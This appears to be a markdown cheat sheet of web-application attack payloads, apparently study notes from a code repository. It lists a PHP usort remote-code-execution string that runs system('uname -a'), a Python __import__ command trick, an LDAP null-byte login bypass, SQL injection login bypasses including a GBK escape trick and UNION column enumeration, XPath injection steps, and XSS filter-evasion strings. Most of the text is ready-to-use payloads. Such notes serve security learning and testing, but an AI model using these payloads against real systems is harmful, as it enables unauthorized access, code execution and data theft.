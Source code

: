 * For PHP `usort` we need to end with `}` in RCE.
    - *?order=id);}system('uname -a');//*

* Break a web application with simple symbols like `'` or `"`
    - Then try to figure out the correct way to use those
        + after that move on with your RCE payload

* In python if we import using a magic function then we can directly use the functions.
    - Ex: `__import__('os').system('ls')`
    - Ex: `__import__('base64').b64decode('')`


## LDAP

* For LDAP login:
    - `hacker)(cn=*))%00`
        + cn=* - This is the true condition for CN
    - With this we can login as `hacker` using any password.

## SQLi

* The basic one is the `' OR 1=1 --` or `' OR 1=1 #`
    - Single quote can also be replaced with double qoutes.

* If error like `more then one account found` or something similar then try to use `LIMIT`
    - `' OR 1=1 LIMIT 1 #` - This limit the output to 1

* Also sometimes replacing `OR` with `||` might also help.
* If Character set is GBK then we can use `%bf%27 OR 1=1 --`
    - This is because the `'` get escaped due to `%bf`

* You can use `union` to find the number of columns.
    - EX: ?id=1 union select 1,2,3
        + Continue adding a new number until you stop getting an error.
    -  This can further be exploited by checking if any of those columns are directly reflected on the page.
        +  change those simple 1,2,3 to something absurd(much easier to find in a page)
    - same parameter can be used to find out version used and finding db name, table name etc

## XML

* XPath
    - Injecting a single `'` might result in the error.
    - And if it shows XPath then you can try fix the error issue by:
        - `]%00` - sqaure brackets with the null byte
    -  `/parent::*` - get all the parent node
    - `/child::node()` - give child and it's node value
    - combine both to get key and values both

## XSS"//alert(1)

* To be able to bypass `<script>` we can use something like `<sCRipt>`
* Sometimes you might notice that the URL is ignoring/replacing `<script>` with empty values this can be used to get the same thing:
    - `hacker<sc<script>ript>alert(1)</sc</script>ript>`
* `'` can really make a difference. `alert(1)` might work but `'alert('1')'` might not. So make sure to use quotes properly.
* If an input gets echoed then injecting some random js code something like `";var a"`
